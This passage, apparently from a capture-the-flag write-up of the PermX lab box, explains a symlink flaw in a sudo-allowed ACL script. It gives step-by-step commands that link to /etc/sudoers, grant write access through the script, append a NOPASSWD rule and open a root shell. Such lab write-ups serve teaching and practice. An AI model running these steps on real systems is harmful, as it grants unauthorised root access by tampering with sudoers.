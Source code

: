 1. Target pathname should start with "/home/mtz"
2. Must not contain ".." anywhere, and last
3. Pass the -f test.

Wait, what?

Read `man [`, did you know that the '[' in the if statement is actually the same as 'test'?

Anyway, let's "test"  and see what the -f test means. Will it pass a symlink?


```
# ls -al /init*  
lrwxrwxrwx 1 root root 28 Jun 15 17:46 /initrd.img -> boot/initrd.img-6.8.11-amd64
lrwxrwxrwx 1 root root 28 Jun 15 17:46 /initrd.img.old -> boot/initrd.img-6.6.15-amd64
                
# test -f ./initrd.img && echo yep || echo noooo
yep

```

Bingo!

## Creating a symlink attack

This script is vulnerable to a symlink attack. It is possible to create a symbolic link inside /home/mtz pointing to ANY file on the box. Using setfacl to grant permissions on that link to write in THAT file!

In /home/mtz run:

1. `ln -s /etc/sudoers` to create a symbolic link to /etc/sudoers.
2. `sudo /opt/acl.sh mtz rw /home/mtz/sudoers` to allow write permissions as root on that symlink.
3. `echo 'mtz ALL = NOPASSWD: ALL' >> sudoers` to add the user mtz and allow unrestricted access to the root account.
4. `sudo bash` to get root!

Game over!

```
cat /root/root.txt
```

# Epilogue

Congratulations if you read this far. PermX is a nice box with lots of possiblities to look for entrypoints and to dive into; XSS, SQLi, Weak passwords, etc. How to know what to look for is still an art and it probably will be for a few more years for AI to catch up on this game. As said, running a website on plain port 80 is becoming unusual and today is merely done for testing purposes. SSH for remote management is in widespread use, including password authentication as fall-back if keys don't work. And thus password-reuse. As I have personally witnessed decades old systems running production, I can fairly confidently say that Chamilo was not that outdated. If this all was served on https, then this box would be a pretty realistic scenario for the user part. Root was a tad bit artificial as it had no real purpose on the host other than to be exploitable. There are other symlinks attacks to get to root with /opt/acl.sh! There's still room to toy around! Have fun!

/sx02089






